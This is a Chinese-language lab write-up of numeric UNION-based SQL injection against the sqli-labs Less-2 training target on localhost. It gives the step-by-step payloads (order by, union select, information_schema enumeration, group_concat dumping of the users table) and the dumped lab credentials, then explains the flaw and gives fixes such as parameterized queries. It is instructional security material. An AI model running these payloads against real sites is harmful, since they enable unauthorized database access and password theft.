




# SQL注入-数字型联合注入漏洞复现（sqli-labs Less-2）

## 一、漏洞简介

SQL注入是指攻击者通过在输入框中插入恶意SQL代码，欺骗数据库执行非授权查询的漏洞。
联合注入利用 UNION SELECT 语句将查询结果合并回显到页面，适用于页面有数据回显的场景。

Less-2 是典型的**数字型 SQL 注入**。与 Less-1（字符型）最大的区别在于：
后端 SQL 语句中，参数 `$id` **没有** 单引号包裹，因此注入时不需要闭合引号。

**影响版本**：PHP + MySQL（未使用参数化查询的场景）

**漏洞危害**：数据库敏感信息泄露、数据篡改、甚至获取服务器控制权

## 二、实验环境

| 组件 | 版本/说明 |
|:---|:---|
| 集成环境 | PHPStudy（Apache + MySQL） |
| 靶场 | sqli-labs（Less-2） |
| 浏览器 | Chrome / Firefox |

## 三、字符型 vs 数字型对比

| 对比维度 | Less-1（字符型） | Less-2（数字型） |
|:---|:---|:---|
| 后端SQL | `WHERE id='$id'` | `WHERE id=$id` |
| 参数是否被引号包裹 | 是（单引号） | 否 |
| 注入时是否需要闭合引号 | 需要 `'` | 不需要 |
| 联合注入Payload开头 | `?id=-1' union select...` | `?id=-1 union select...` |

> 📌 判断注入类型的方法：在参数后加单引号 `?id=1'`，若页面报错则通常为字符型；
> 若页面正常或变化不明显，可再尝试 `?id=1 and 1=2`，若页面变化则可能为数字型。

## 四、漏洞复现步骤

### 4.1 寻找注入点

访问 Less-2：

http://127.0.0.1/sqli-labs/Less-2/?id=1

页面正常回显用户名和密码。

在参数后添加单引号测试：

http://127.0.0.1/sqli-labs/Less-2/?id=1'

页面报错，说明输入被拼接到了 SQL 语句中，存在注入。

### 4.2 判断字段数

使用 ORDER BY 判断字段数：

?id=1 order by 4--+

页面报错，说明字段数小于4。

改用 `order by 3--+` 页面正常，故原查询共 **3个字段**。

### 4.3 确定回显位

让前段查询失效（`id=-1` 不存在），用 UNION SELECT 查看回显位置：

?id=-1 union select 1,2,3--+

页面回显数字 **2** 和 **3**，说明第2、3个字段会回显在页面上，可用于放置要窃取的数据。

### 4.4 获取数据库名

利用回显位2，调用 `database()` 函数获取当前数据库名：

?id=-1 union select 1,database(),3--+

回显当前数据库名：`security`

### 4.5 获取所有表名

通过 `information_schema.tables` 查询 `security` 库下的所有表，并用 `group_concat()` 将多行结果合并为一行：

?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

回显表名列表：`emails,referers,uagents,users`

### 4.6 获取列名（以users表为例）

以 `users` 表为目标，查询其所有列名：

?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+

回显列名：`id,username,password`

### 4.7 获取数据（脱库）

查询 `users` 表中的用户名和密码：

?id=-1 union select 1,group_concat(username,':',password),3 from users--+

成功获取所有用户名和密码：

Dumb:Dumb, Angelina:I-kill-you, Dummy:p@ssword, secure:crappy, stupid:stupidity,
superman:genious, batman:mob!le, admin:admin, admin1:admin1, admin2:admin2,
admin3:admin3, dhakkan:dumbo, admin4:admin4

## 五、漏洞原理分析

正常SQL语句（Less-2源码）：
SELECT * FROM users WHERE id=$id LIMIT 0,1

攻击者输入：-1 union select 1,database(),3--+
拼接后SQL：
SELECT * FROM users WHERE id=-1 union select 1,database(),3--+ LIMIT 0,1

攻击原理：
1. id=-1 让前面的 SELECT 查不到任何数据，页面只显示UNION后的结果
2. UNION SELECT 将攻击者构造的查询结果附加到结果集
3. database() 返回的库名被显示在回显位
4. --+ 注释掉后面的 LIMIT 语句

与Less-1（字符型）的关键区别：
Less-1：WHERE id='$id' → 需要先用 ' 闭合引号
Less-2：WHERE id=$id  → 参数直接拼接，无需闭合引号

## 六、修复方案

| 修复方式 | 说明 | 优先级 |
|:---|:---|:---|
| **参数化查询/预编译** | 使用PDO或MySQLi的prepare方法，将数据与SQL分离 | 🔴 最高 |
| 输入类型强制转换 | 对数字型参数强制转为整型 `$id = (int)$_GET['id'];` | 🟡 中 |
| 关闭错误回显 | 生产环境设置 `display_errors=Off`，不暴露数据库信息 | 🟡 中 |
| 最小权限原则 | 数据库账户仅授予必要权限 | 🟡 中 |

## 七、总结

- Less-2 是典型的**数字型SQL注入**，注入点参数无引号包裹
- 与字符型注入相比，Payload 中省去了闭合引号的步骤，其余流程完全一致
- 通过本关，应掌握数字型与字符型注入的判断方法及 Payload 差异
- 联合注入七步流程：找注入点 → 判断字段数 → 爆回显位 → 爆库名 → 爆表名 → 爆列名 → 爆数据

## 八、参考链接

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- sqli-labs靶场: https://github.com/Audi-1/sqli-labs
